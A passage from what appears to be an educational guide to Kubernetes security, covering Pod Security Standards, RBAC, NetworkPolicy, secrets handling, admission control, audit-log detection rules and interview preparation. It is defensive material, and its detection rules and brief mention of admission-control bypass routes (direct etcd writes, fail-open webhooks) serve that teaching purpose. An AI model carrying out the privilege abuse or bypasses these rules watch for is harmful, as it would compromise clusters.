│               │ Baseline (legacy that can't be restricted)│
│               │ Privileged (system workloads ONLY)        │
├───────────────┼──────────────────────────────────────────┤
│ RBAC          │ Role (namespace) not ClusterRole          │
│               │ Specific resourceNames, not wildcard *    │
│               │ automountServiceAccountToken: false        │
├───────────────┼──────────────────────────────────────────┤
│ NETWORK       │ Default-deny ALL, then open required      │
│               │ Always allow UDP/TCP 53 (DNS)             │
├───────────────┼──────────────────────────────────────────┤
│ SECRETS       │ Kubernetes Secrets = base64 only          │
│               │ Production: Vault or External Secrets Op  │
├───────────────┼──────────────────────────────────────────┤
│ ADMISSION     │ Kyverno or OPA Gatekeeper                 │
│               │ Policies: no-privileged, digest-pinning,  │
│               │ resource-limits, image-from-trusted-reg   │
├───────────────┼──────────────────────────────────────────┤
│ IMAGE SCAN    │ Trivy in CI: fail on CRITICAL findings    │
│               │ Pin images with @sha256: digest           │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Security defaults should be restrictive; functionality should be opt-in."
Kubernetes ships with permissive defaults (all pods can communicate, all pods can be privileged,
all ServiceAccounts are auto-mounted). This is correct for ease of adoption but wrong for security.
The principle that secure defaults should be restrictive is a foundational secure design principle
from Saltzer and Schroeder's 1975 paper "The Protection of Information in Computer Systems":
"Fail-safe defaults: base access decisions on permission rather than exclusion."
"The default situation is lack of access, and the protection scheme identifies conditions
under which access is permitted."
This principle manifests in modern security design:
- HTTPS everywhere (HTTP opt-in for specific local needs, not the default).
- OAuth2 PKCE (insecure implicit flow deprecated - secure PKCE is now the default).
- Content-Security-Policy (default-deny scripts, opt-in for specific sources).
- AWS IAM (explicit deny by default - no permissions unless explicitly granted).
- Kubernetes PSS Restricted (no privileges unless explicitly required).
- PostgreSQL pg_hba.conf (default: reject all connections - add rules to permit).
Each of these flipped a permissive default to a restrictive default.
The enforcement mechanism shifted from: "developer must remember to secure this"
to: "developer must explicitly opt into the less-secure option."
The security benefit: forgetting to secure a thing is now safe (default = restricted).
Forgetting used to be: insecure (default = permissive).
When designing new systems: start with restrictive defaults.
Document how to opt-in to capabilities, not how to lock down defaults.
The burden of decision belongs on the less-secure path, not the secure one.

---

### 💡 The Surprising Truth

Kubernetes audit logs are off by default.

In most managed Kubernetes services (EKS, GKE, AKS), the audit log
(who accessed which API endpoint, when, from which IP) requires explicit configuration.
Without audit logging: when a breach occurs in your Kubernetes cluster,
you have no record of what the attacker accessed or changed.

But there's a deeper issue: even when audit logging IS enabled, most teams
send audit logs to CloudWatch or a storage bucket and never look at them.
The volume is enormous: a 100-node cluster generates hundreds of thousands
of audit events per hour. Without SIEM integration and pre-built detection rules,
the logs are forensic value only (useful after a breach is discovered) -
not preventative (detecting breaches as they happen).

What the mature security posture looks like for Kubernetes audit:
1. Enable audit logging with an audit policy (log all verbs on sensitive resources:
   secrets, serviceaccounts, clusterrolebindings).
2. Forward to SIEM (Splunk, Elastic, or AWS Security Lake).
3. Detection rules:
   - "kubectl exec or attach to production pod at unusual hour" → alert.
   - "ClusterRoleBinding created binding to cluster-admin" → P1 alert.
   - "ServiceAccount created in production with get/list Secrets verb" → alert.
   - "Pod created with privileged=true" → alert (should have been blocked by admission control).

The last rule is the detection signal for admission control BYPASS:
if Kyverno/Gatekeeper is configured correctly, privileged pods are rejected.
If a privileged pod appears in audit logs: your admission controller was bypassed.
How? Direct etcd write (bypasses API server), misconfigured webhook (failure-open),
or an exemption that's too broad.
This is why audit logs plus detection rules catch what admission control misses.
Defense in depth: admission control (prevent) + audit log detection (detect bypass).

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **LIST** the three Pod Security Standards profiles: Restricted (most workloads),
   Baseline (legacy), Privileged (system only). Enforce Restricted via namespace label.
2. **EXPLAIN** why RBAC should use Role (namespace-scoped) not ClusterRole for application workloads.
   ClusterRoleBinding + ClusterRole = cluster-wide access. Compromise of that pod = cluster-wide lateral movement.
3. **WRITE** a NetworkPolicy default-deny and explain that it requires the DNS egress exception
   (UDP/TCP 53) or DNS resolution stops working.
4. **EXPLAIN** why "Kubernetes Secrets are encrypted" is FALSE: Secrets are base64-encoded,
   not encrypted. etcd stores them in cleartext unless encryption-at-rest is configured.
   Production: use Vault or External Secrets Operator.
5. **DESCRIBE** admission controller flow: kubectl apply → RBAC auth → mutating webhook → validating webhook (Gatekeeper/Kyverno policy) → etcd. Rejection at any step = 403 Forbidden, pod never scheduled.

---

### 🎯 Interview Deep-Dive

**Q: What are the key security controls in Kubernetes? What are the most common
security misconfigurations? How would you prevent container escape to the host?**

*Why they ask:* Tests Kubernetes security depth. Common in platform engineering,
DevSecOps, and senior/staff backend roles. Expect follow-up: "How do you enforce
these across 50 development teams?"

*Strong answer covers:*
- Key controls: RBAC (least-privilege ServiceAccounts, Role not ClusterRole),
  Pod Security Standards (Restricted profile for app workloads via namespace label),
  NetworkPolicy (default-deny all ingress/egress, open only required paths),
  Secrets management (not just base64 - Vault or External Secrets Operator),
  Admission control (OPA Gatekeeper or Kyverno for policy enforcement),
  Image scanning (Trivy in CI/CD pipeline).
- Common misconfigurations: privileged containers (container escape to host),
  ClusterRoleBinding to cluster-admin for application ServiceAccounts,
  automountServiceAccountToken not disabled (token usable if pod is compromised),
  no default-deny NetworkPolicy (unlimited lateral movement),
  Kubernetes Secrets used as "encrypted" (they're just base64).
- Container escape prevention: Pod Security Standards Restricted profile rejects
  privileged=true, hostPID, hostNetwork, hostPath volumes, runAsRoot containers.
  Admission controller enforces this at deploy time (not audit time).
  Audit command: `kubectl get pods -A -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged==true)'`
  If returns results: cluster has privileged pods - investigate immediately.
- Enforcement across teams: Kyverno ClusterPolicies + validationFailureAction: Enforce.
  Templates provided by platform team. Developers: secure by default, no exceptions without review.
  Kyverno reports: audit mode shows what would be blocked before switching to Enforce.